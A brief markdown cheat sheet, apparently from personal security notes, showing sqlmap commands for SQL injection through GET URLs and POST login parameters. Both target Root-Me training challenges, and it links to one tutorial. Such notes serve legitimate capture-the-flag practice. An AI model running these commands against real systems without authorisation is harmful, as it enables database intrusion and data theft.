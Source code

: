 # SQLMap

## GET request

SQL-injection in URL's (GET requests):
```bash
sqlmap -u "http://challenge01.root-me.org/web-serveur/ch34/?action=contents&order=ASC"
```

## POST request
SQL-injection in POST params (eg. login-forms)
```bash
sqlmap --method=POST -u "http://challenge01.root-me.org/web-serveur/ch9/" --data="login=admin&password=poo"
```

Tutorials:
* [Basic](https://www.youtube.com/watch?v=yPMbb38pwVI)
